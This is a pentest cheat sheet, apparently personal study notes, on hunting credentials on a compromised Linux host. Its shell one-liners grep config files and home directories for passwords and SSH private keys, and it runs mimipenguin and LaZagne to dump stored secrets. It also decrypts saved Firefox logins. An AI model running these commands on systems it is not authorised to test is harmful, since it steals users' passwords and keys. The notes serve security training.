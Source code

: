 # Credential Hunting in Linux

Look for common things like Files, history, Memory, Key-Rings (browser-creds)

### History

`.bash_history`

`.bashrc`

`.bash_profile`

### Conf file

```shell-session
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```

### Creds in conf file

```shell-session
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```

### Database search

```shell-session
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```


### txt search

```shell-session
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

### Search scripts


```shell-session
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```


### Cronjobs

```shell-session
 cat /etc/crontab
 
 ls -la /etc/cron.*/
```

### SSH Keys

```shell-session
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```

```shell-session
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```

### Memory and Cache

```shell-session
sudo python3 mimipenguin.py
```

Also available in bash

[https://github.com/huntergregal/mimipenguin](https://github.com/huntergregal/mimipenguin)

### LaZagne

```shell-session
sudo python2.7 laZagne.py all
```

can also give browser option

### Browser creds

when we store credentials for a web page in the Firefox browser, they are encrypted and stored in `logins.json` on the system. However, this does not mean that they are safe there.

```shell-session
ls -l .mozilla/firefox/ | grep default 
```
![[image 17.png]]



```shell-session
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```
![[image 18.png]]


```shell-session
 python3.9 firefox_decrypt.py
```
![[image 19.png]]

## Passwd, Shadow & .bak file
